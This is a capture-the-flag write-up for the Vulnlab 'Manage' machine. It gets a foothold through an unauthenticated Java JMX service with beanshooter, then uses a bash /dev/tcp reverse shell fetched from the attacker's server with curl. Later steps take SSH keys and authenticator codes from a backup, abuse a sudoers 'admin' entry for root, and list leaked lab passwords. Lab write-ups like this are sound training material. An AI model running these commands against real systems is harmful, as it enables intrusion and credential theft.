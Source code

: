 ```yaml
---
layout: writeup
category: Vulnlab
chall_description: 
points: 
solves: 
tags: Linux
date: 2024-09-06
comments: true
---
```


This is the write-up for the Manage machine from Vulnlab.

# Enumeration

First, we start executing a full port scan on the machine.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/manage]
╰─ $ sudo nmap -v -sS -Pn -p- --min-rate=300 --max-rate=500 10.10.79.166
```

![image.png](image.png)

Now, we execute a port scan just on the open ports found on the last scan.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/manage]
╰─ $ sudo nmap -vv -sV -sC -Pn -p 22,2222,8080,35613,43645 -oA nmap/manage 10.10.79.166
```

![image.png](image%201.png)

Accessing the web service on port 8080, we got a Tomcat server running.

![image.png](image%202.png)

The version of the Tomcat running is 10.1.19. Searching for some public exploits, we haven’t found anything useful. We start to enumerate the service on port 2222, which is a Java JMX. Searching on the Internet about this service, we could find a tool that enumerates and exploit, if the service was vulnerable, the entire Java JMX. We search for `JMX Exploit RCE` on the Google, and we found the link: [https://swisskyrepo.github.io/PayloadsAllTheThings/Java RMI/](https://swisskyrepo.github.io/PayloadsAllTheThings/Java%20RMI/). We found a tool named beanshooter (https://github.com/qtc-de/beanshooter), and download the latest release.

After downloaded the tool, we enumerate the host as the following:

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/manage/exploitation/jmx]
╰─ $ java -jar beanshooter-4.1.0-jar-with-dependencies.jar enum 10.10.115.94 2222
```

![image.png](image%203.png)

As we can see, the JMX installed on the host is misconfigured, because it is not required authentication. We can just use the same tool to execute remote commands on the victim host. As well as, we could leak the Tomcat users’ credentials

![image.png](image%204.png)

# Exploitation

### **CRITICAL     A05:2021 – Security Misconfiguration - (OWASP TOP 10)**

 We exploit the host, and gained unauthorized access in two steps:

1. We create our malicious bash reverse shell, and upload to the machine using the beanshooter tool:

```bash
# MALICIOUS REVERSE SHELL
#!/bin/bash
bash -i >& /dev/tcp/10.8.2.220/443 0>&1

# Open a python HTTP server
$ python3 -m http.server 80

# UPLOADING OUR FILE shell.sh
$ java -jar beanshooter-4.1.0-jar-with-dependencies.jar standard 10.10.115.94 2222 exec 'curl http://10.8.2.220/shell.sh -o /tmp/shell.sh'
```

![image.png](image%205.png)

1. We execute our bash reverse shell uploaded to the host through beanshooter tool:

```bash
# Open a netcat listener
$ python3 -m pwncat -lp 443

# Executing our reverse shell on the host
$ java -jar beanshooter-4.1.0-jar-with-dependencies.jar standard 10.10.115.94 2222 exec 'bash /tmp/shell.sh'
```

![image.png](image%206.png)

## Lateral Movement

Checking the /home directory, we are able to check the respective files from the users directories (***useradmin and karl***).

![image.png](image%207.png)

Checking the useradmin’s home directory, we found a backup directory. Verifying the files in this directory, we are able to download the file to our local attack machine:

![image.png](image%208.png)

Extracting the backup file, we have access to the useradmin’s home directory, including the .ssh folder with the SSH keys.

![image.png](image%209.png)

We give the right permissions to the private key file (`chmod 600`), and, when we try to log into the SSH, it asks a verification code.

![image.png](image%2010.png)

We have a hidden file (`.google_authenticator`) in the useradmin’s home directory. Reading it, we got some codes from Google Authenticator service.

![image.png](image%2011.png)

We were able to log into SSH service using the first verification code in the list.

![image.png](image%2012.png)

## Privilege Escalation

We first check the sudo rights for the current user we got.

![image.png](image%2013.png)

We can add new users to the operating system (OS) through sudo without need of a password, and the username only can contain alphanumeric characters. If we add any user, for example, th3g3ntl3m4n, and try to add, at the same time, this user to the sudo group, the current execution will ask the useradmin’s password, which is the same password for the Tomcat admin user. But, even if we insert the correct verification code, from the codes list in the `.google_authenticator` file, we can not add the user, because the useradmin is not in the sudoers file.

After searching, it occurs that we are on an Ubuntu installation (`$ uname -a; cat /etc/os-release`), and we search for a standard or default Ubuntu’s sudoers file, which contains an entry to admin user that can execute any commands as root privileges.

![image.png](image%2014.png)

So, we just have to add a user named “admin”, and then, logged as admin, execute any commands as root.

```bash
useradmin@manage:~$ sudo /usr/sbin/adduser admin
```

![image.png](image%2015.png)

Now, we log as new admin user created, and executes `sudo su`, and enter the password we have defined when we add the admin user before.

```bash
useradmin@manage:~$ su admin
admin@manage:/home/useradmin$ sudo -i su
```

![image.png](image%2016.png)

# Appendix

## *1)   Compromised Users*

| USERNAME | PASSWORD | METHOD | NOTES |
| --- | --- | --- | --- |
| manager | `fhErvo2r9wuTEYiYgt` | JMX Enumeration | Tomcat’s user |
| admin | `onyRPCkaG4iX72BrRtKgbszd` | JMX Enumeration | Tomcat’s user |